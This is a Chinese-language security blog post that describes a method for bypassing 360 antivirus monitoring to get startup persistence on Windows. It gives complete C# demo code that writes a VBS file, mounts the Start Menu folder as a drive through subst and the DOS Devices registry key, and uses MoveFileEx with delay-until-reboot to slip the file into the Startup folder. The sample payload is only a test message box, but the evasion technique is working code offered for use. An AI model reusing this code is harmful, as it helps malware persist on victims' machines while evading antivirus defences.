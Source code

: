 ```yaml
---
title: 一个不太好用的过360启动方案
date: 2023-2-27 17:49:45
categories: 
- Persistence
tags:
- Bypass
- 360
- Persistence
---
```

突发奇想的一个思路，不太好用就发出来玩玩吧

# 背景知识

## 目录挂载

subst是Windows自带的一个工具，可以将文件目录挂载为磁盘，但是重启后不会继续挂载了。

如果想长期挂载，需要修改注册表 ``HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\DOS Devices``。

[https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst)

## MoveFileEx

MoveFileEx函数第三个参数，可以设置为MOVEFILE_DELAY_UNTIL_REBOOT，实现重启后移动文件。

此参数仅适用于同一盘符内文件的移动。

[https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa)

# 绕过思路

shell:startup目录是用户的启动文件夹，其中的文件会在系统启动时执行，杀软也肯定对写入该目录存在监控

但是杀软无法拦截MoveFileEx导致的重启后移动，所以挂载启动文件夹为新盘符目录后通过MoveFileEx即可移动文件至启动文件夹中

# Demo代码

```
using System;
using System.IO;
using Microsoft.Win32;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace Demo
{
    internal class Program
    {
        [Flags]
        enum MoveFileFlags
        {
            MOVEFILE_REPLACE_EXISTING = 0x00000001,
            MOVEFILE_COPY_ALLOWED = 0x00000002,
            MOVEFILE_DELAY_UNTIL_REBOOT = 0x00000004,
            MOVEFILE_WRITE_THROUGH = 0x00000008,
            MOVEFILE_CREATE_HARDLINK = 0x00000010,
            MOVEFILE_FAIL_IF_NOT_TRACKABLE = 0x00000020
        }

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
        static extern bool MoveFileEx(string lpExistingFileName, string lpNewFileName, MoveFileFlags dwFlags);
        static void Main(string[] args)
        {
            File.WriteAllText("C:\\Windows\\Temp\\1.vbs", "msgbox(\"test\")");
            string newdisk = "X:";
            string filepath = "C:\\Windows\\Temp\\1.vbs";
            string filename = "1.vbs";

            string appdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
            string programs = appdata + "\\Microsoft\\Windows\\Start Menu\\Programs";
            RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SYSTEM\\CurrentControlSet\\Control\\Session Manager\\DOS Devices", true);
            registryKey.SetValue(newdisk, "\\??\\"+ programs);
            Process.Start("subst", newdisk+" \""+ programs + "\"");
            File.Copy(filepath, programs+"\\"+ filename);
            MoveFileEx(newdisk+ "\\" + filename, newdisk + "\\Startup\\" + filename, MoveFileFlags.MOVEFILE_DELAY_UNTIL_REBOOT);
        }
    }
}

```

# 后续完善

自动识别未使用盘符
